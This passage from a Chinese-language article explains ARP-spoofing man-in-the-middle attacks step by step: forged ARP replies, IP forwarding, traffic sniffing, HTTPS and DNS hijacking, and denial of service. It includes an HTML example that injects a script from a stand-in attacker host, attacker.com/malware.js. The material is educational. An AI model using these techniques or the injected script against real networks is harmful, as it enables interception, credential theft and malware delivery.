 ##### 2. **双向欺骗（中间人攻击，MITM）**  
- **攻击流程详解**：  
  1. **信息收集**：攻击者通过ARP扫描（如`arp-scan`工具）获取目标主机A（IP:192.168.1.100）和网关G（IP:192.168.1.1）的真实MAC地址（假设为`MAC_A`和`MAC_G`）。  
  2. **伪造ARP响应（欺骗A）**：  
     - 发送包内容：`源IP=192.168.1.1，源MAC=C的MAC`  
     - 效果：A的ARP缓存中`192.168.1.1 → MAC_C`（错误映射）。  
  3. **伪造ARP响应（欺骗网关G）**：  
     - 发送包内容：`源IP=192.168.1.100，源MAC=C的MAC`  
     - 效果：网关的ARP缓存中`192.168.1.100 → MAC_C`（错误映射）。  
  4. **流量劫持与转发**：  
     - A发送给网关的数据先到C，C再转发给网关；网关发送给A的数据先到C，C再转发给A。  
     - 攻击者需开启系统IP转发功能（如Linux执行`echo 1 > /proc/sys/net/ipv4/ip_forward`），否则会导致目标断网。  

- **隐蔽性增强手段**：  
  - **定时刷新欺骗包**：通过脚本（如Python的`scapy`库）每10-20秒发送一次伪造ARP包，覆盖过期的合法缓存。  
  - **混杂模式与端口镜像**：配合交换机端口镜像或网卡混杂模式，捕获双向流量（部分场景下需结合DNS欺骗或HTTPS劫持）。  


##### 3. **高级ARP欺骗变种**  
- **泛洪攻击（ARP Storm）**：  
  攻击者向局域网广播大量伪造ARP包，导致所有主机ARP缓存被污染，形成网络拥堵（类似广播风暴）。  
- **动态ARP欺骗（结合DHCP攻击）**：  
  攻击者伪造DHCP服务器，向主机分配错误的网关IP或DNS服务器，配合ARP欺骗实现双重劫持。  
- **跨VLAN ARP欺骗**：  
  利用交换机配置漏洞（如未启用VLAN隔离），在不同VLAN间实施ARP欺骗（需结合DHCP Snooping绕过防护）。  


#### **三、ARP欺骗的危害场景与技术细节**  
##### 1. **数据窃听的技术实现**  
- **明文数据捕获**：  
  通过双向欺骗劫持HTTP流量，使用Wireshark等工具直接解析账号密码、聊天内容等。例如：  
  - 捕获用户登录表单：`POST /login.php HTTP/1.1`中的`username`和`password`字段。  
- **加密流量破解（HTTPS劫持）**：  
  攻击者伪造CA证书，与目标建立HTTPS连接（中间人代理），实现加密流量的解密与篡改（需用户忽略证书警告）。  


##### 2. **流量篡改的典型案例**  
- **网页挂马**：  
  攻击者修改HTTP响应中的HTML代码，插入恶意JS脚本（如加载挖矿程序、XSS攻击代码）。例如：  
  ```html
  <!-- 原始HTML -->
  <body>...</body>
  <!-- 篡改后 -->
  <body>
    <script src="http://attacker.com/malware.js"></script>
    ...
  </body>
  ```  
- **DNS污染**：  
  劫持DNS请求响应，将目标域名（如`www.bank.com`）解析到钓鱼网站IP，引导用户访问伪造页面。  


##### 3. **拒绝服务（DoS）攻击方式**  
- **断网攻击**：  
  向目标主机发送伪造ARP响应：`源IP=网关IP，源MAC=任意错误地址`，使目标无法与网关通信。  
- **ARP缓存溢出**：  
  向主机发送海量伪造ARP包，耗尽其内存资源（早期系统更易受影响）。  
